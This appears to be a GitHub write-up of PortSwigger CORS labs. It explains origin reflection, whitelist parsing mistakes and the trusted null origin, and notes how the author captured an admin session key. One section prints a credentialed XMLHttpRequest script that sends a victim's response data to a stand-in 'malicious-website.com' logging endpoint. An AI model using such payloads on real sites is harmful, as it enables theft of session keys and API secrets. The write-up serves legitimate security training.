







#### What is CORS (cross-origin resource sharing)?

Cross-origin resource sharing (CORS) is a browser mechanism which enables controlled access to resources located outside of a given domain. It extends and adds flexibility to the same-origin policy (SOP). However, it also provides potential for cross-domain attacks, if a website's CORS policy is poorly configured and implemented.

**Same-origin policy**

The same-origin policy is a restrictive cross-origin specification that limits the ability for a website to interact with resources outside of the source domain.

The same-origin policy is very restrictive and consequently various approaches have been devised to circumvent the constraints. Many websites interact with subdomains or third-party sites in a way that requires full cross-origin access. A controlled relaxation of the same-origin policy is possible using cross-origin resource sharing (CORS).

#### Vulnerabilities arising from CORS configuration issues

Many modern websites use CORS to allow access from subdomains and trusted third parties. Their implementation of CORS may contain mistakes or be overly lenient to ensure that everything works, and this can result in exploitable vulnerabilities.

#### Lab: CORS vulnerability with basic origin reflection

In this you can see origin can be changed.

<br>

</br>

In this I put the html code [exploit](https://github.com/RealGameTheory/Portswigger/blob/main/cors/corslab1.html) into the server exploit and then check the access logs.

<br>

</br>

Decoding the data I got (api visible here too).

<br>

</br>

Replacing with the session key to login as admin (api visible here too).

<br>

</br>

#### Server-generated ACAO header from client-specified Origin header

 Maintaining a list of allowed domains requires ongoing effort, and any mistakes risk breaking functionality. So some applications take the easy route of effectively allowing access from any other domain.

One way to do this is by reading the Origin header from requests and including a response header stating that the requesting origin is allowed.

For example:

 ```
GET /sensitive-victim-data HTTP/1.1
Host: vulnerable-website.com
Origin: https://malicious-website.com
Cookie: sessionid=...
```

Responds with:

```
HTTP/1.1 200 OK
Access-Control-Allow-Origin: https://malicious-website.com
Access-Control-Allow-Credentials: true
...
```

These headers state that access is allowed from the requesting domain (`malicious-website.com`) and that the cross-origin requests can include cookies (`Access-Control-Allow-Credentials: true`) and so will be processed in-session.

Because the application reflects arbitrary origins in the Access-Control-Allow-Origin header, this means that absolutely any domain can access resources from the vulnerable domain. If the response contains any sensitive information such as an API key or CSRF token, you could retrieve this by placing the following script on your website:

```
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','https://vulnerable-website.com/sensitive-victim-data',true);
req.withCredentials = true;
req.send();

function reqListener() {
	location='//malicious-website.com/log?key='+this.responseText;
};
```

#### Errors parsing Origin headers

Some applications that support access from multiple origins do so by using a whitelist of allowed origins. When a CORS request is received, the supplied origin is compared to the whitelist. If the origin appears on the whitelist then it is reflected in the Access-Control-Allow-Origin header so that access is granted.

Mistakes often arise when implementing CORS origin whitelists. Some organizations decide to allow access from all their subdomains (including future subdomains not yet in existence). And some applications allow access from various other organizations' domains including their subdomains. These rules are often implemented by matching URL prefixes or suffixes, or using regular expressions. Any mistakes in the implementation can lead to access being granted to unintended external domains.

for example:
Suppose an application grants access to all domains ending in:
<br>
`normal-website.com`

An attacker might be able to gain access by registering the domain:
<br>
`hackersnormal-website.com`

Alternatively, suppose an application grants access to all domains beginning with
<br>
`normal-website.com`

An attacker might be able to gain access using the domain:
<br>
`normal-website.com.evil-user.net`

The specification for the Origin header supports the value `null`. Browsers might send the value `null` in the Origin header in various unusual situations:

* Cross-origin redirects.
* Requests from serialized data.
* Request using the `file:` protocol.
* Sandboxed cross-origin requests.

#### Lab: CORS vulnerability with trusted null origin
We verify by puting null in origin.
<br>

</br>
We use the following html code [exploit](https://github.com/RealGameTheory/Portswigger/blob/main/cors/corslab2.html) and see the logs
<br>

</br>
We then decode the data we get
<br>

</br>
